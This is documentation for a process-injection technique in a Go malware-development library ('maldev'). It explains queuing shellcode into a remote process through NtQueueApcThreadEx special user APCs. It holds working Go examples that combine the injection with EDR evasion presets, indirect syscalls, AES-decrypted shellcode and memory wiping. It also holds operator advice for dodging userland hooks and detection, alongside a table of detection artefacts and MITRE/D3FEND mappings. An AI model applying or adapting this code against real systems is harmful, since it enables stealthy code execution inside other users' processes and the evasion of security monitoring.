

# NtQueueApcThreadEx — special user APC

[← injection index](README.md) · [docs/index](../../index.md)

> **New to maldev injection?** Read the [injection/README.md
> vocabulary callout](README.md#primer--vocabulary) first.

## TL;DR

Cross-process APC injection that fires **immediately** at the next
kernel-to-user transition, without the target needing to enter an
alertable wait. Win10 1903+ only. Allocate / write / protect in the
target as usual, then queue the APC with the
`QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC` flag — the kernel delivers it
on any thread the next time control returns to user mode.

| Trait | Value |
|---|---|
| **Target class** | Remote (existing PID) |
| **Creates a new thread?** | No — APC delivered to existing thread |
| **Uses `WriteProcessMemory`?** | Yes (`NtWriteVirtualMemory`) |
| **Stealth tier** | Medium — cleaner than CreateRemoteThread; still has WPM signal |
| **Min Windows version** | Win10 1903+ (special user APC flag) |

When to pick a different method:

- Pre-Win10 1903 target? → [CreateRemoteThread](create-remote-thread.md).
- Want to avoid WPM entirely? → [Section Mapping](section-mapping.md).
- Have control of the spawn (CREATE_SUSPENDED)? → [Early Bird APC](early-bird-apc.md) — quieter setup with full control.

## Primer

Standard `QueueUserAPC` only fires when the target thread enters an
alertable wait (`SleepEx`, `WaitForSingleObjectEx`, …). Many real
processes never enter alertable waits, so the classic APC technique
either silently fails or relies on Early Bird's spawned-suspended
trick. Special User APCs, introduced in Windows 10 build 18362
(version 1903), fire on the next kernel-to-user mode transition,
regardless of wait state — the kernel forces the APC dispatch.

The flag (`1` / `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC`) is exposed
via the undocumented `NtQueueApcThreadEx`. Pass it on a thread handle
opened with `THREAD_SET_CONTEXT`, and the kernel inserts a special-APC
record that fires on the very next `KiUserApcDispatcher` return — which
happens within microseconds for any actively-running thread.

The package enumerates threads of the target, tries each in turn, and
stops at the first successful queue. Falls back to standard
`QueueUserAPC` and then `CreateRemoteThread` when `WithFallback()` is
set.

## How it works



Steps:

1. Open the target with `PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ`.
2. Allocate / write / protect in the target.
3. Enumerate threads via `CreateToolhelp32Snapshot` (or
   `NtQuerySystemInformation` if the caller demands it).
4. For each thread: open with `THREAD_SET_CONTEXT`, call
   `NtQueueApcThreadEx(hThread, 1, addr, 0, 0, 0)`.
5. First success terminates the loop. The APC fires on the next
   kernel→user transition.

## Standard APC vs special APC

| Aspect | `QueueUserAPC` (standard) | `NtQueueApcThreadEx` (special) |
|---|---|---|
| Alertable wait required | yes | **no** |
| Minimum Windows version | XP+ | 10 1903 (build 18362) |
| API documentation | documented (`kernel32`) | undocumented (`ntdll`) |
| Suspended process required | typically (Early Bird) | no |
| Delivery timing | when thread enters alertable wait | next kernel→user transition |
| EDR monitoring | well-known | less observed but ETW-Ti emits |

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/inject`](https://pkg.go.dev/github.com/oioio-space/maldev/inject) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
inj, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(targetPID).
    Create()
if err != nil { return err }
return inj.Inject(shellcode)
```

### Composed (indirect syscalls + fallback)

```go
inj, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(targetPID).
    IndirectSyscalls().
    WithFallback().
    Create()
if err != nil { return err }
return inj.Inject(shellcode)
```

### Advanced (evade + locate target + special APC)

```go
import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/process/enum"
)

_ = evasion.ApplyAll(preset.Stealth(), nil)

procs, err := enum.FindByName("notepad.exe")
if err != nil || len(procs) == 0 {
    return errors.New("target not found")
}

inj, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(int(procs[0].PID)).
    IndirectSyscalls().
    Create()
if err != nil { return err }
return inj.Inject(shellcode)
```

### Complex (decrypt + special APC + wipe)

```go
import (
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

_ = evasion.ApplyAll(preset.Stealth(), nil)

shellcode, err := crypto.DecryptAESGCM(aesKey, encrypted)
if err != nil { return err }
memory.SecureZero(aesKey)

inj, err := inject.Build().
    Method(inject.MethodNtQueueApcThreadEx).
    TargetPID(targetPID).
    IndirectSyscalls().
    WithFallback().
    Create()
if err != nil { return err }
if err := inj.Inject(shellcode); err != nil { return err }
memory.SecureZero(shellcode)
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Cross-process `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` | EDR userland hooks + ETW-Ti |
| `NtQueueApcThreadEx` with the special-APC flag | ETW-Ti (`Microsoft-Windows-Threat-Intelligence`) emits an `ApcQueue` event with the flag — newer EDR rules key on it specifically |
| Multiple consecutive `NtOpenThread(THREAD_SET_CONTEXT)` | Behavioural EDR rule — opening every thread until one succeeds is unusual |
| APC start address outside any image | EDR memory scanners flag the orphan APC target |

**D3FEND counters:**

- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — APC chain plus orphan start address is a strong signal.
- [D3-PCSV](https://d3fend.mitre.org/technique/d3f:ProcessCodeSegmentVerification/)
  — APC start should match an image.

**Hardening for the operator:** combine with [`SectionMapInject`](section-mapping.md)
or [`PhantomDLLInject`](phantom-dll.md) to make the APC start address
image-backed; pair with [`evasion/unhook`](../evasion/ntdll-unhooking.md)
so the cross-process Nt calls dodge userland hooks.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1055.004](https://attack.mitre.org/techniques/T1055/004/) | Process Injection: Asynchronous Procedure Call | special-APC variant — no alertable wait | D3-PSA |

## Limitations

- **Win10 1903+ only.** Older Windows builds lack the special-APC
  flag. The `WithFallback()` chain falls through to standard
  `QueueUserAPC` then `CreateRemoteThread`.
- **`THREAD_SET_CONTEXT` may be denied.** Some hardened threads
  (services with restricted ACLs, PPL processes) refuse the open. The
  loop keeps trying; if every thread refuses, the inject fails.
- **Cross-process write still happens.** The technique avoids the
  thread-creation event, not the VM-write event.
- **Undocumented flag.** Microsoft has not promised stability for the
  special-APC flag. Verify after major build upgrades.
- **No PPL targets.** Cross-process VM operations on PPL are denied.

## See also

- [Early Bird APC](early-bird-apc.md) — child-process variant of the
  same APC trick.
- [CreateRemoteThread](create-remote-thread.md) — louder cousin used
  as fallback.
- [Section Mapping](section-mapping.md) / [Phantom DLL](phantom-dll.md)
  — pair to make the APC start address image-backed.
- [Repnz, *Special User APCs in Windows 10*](https://repnz.github.io/posts/apc/user-apc/)
  — primer on the special-APC primitive.
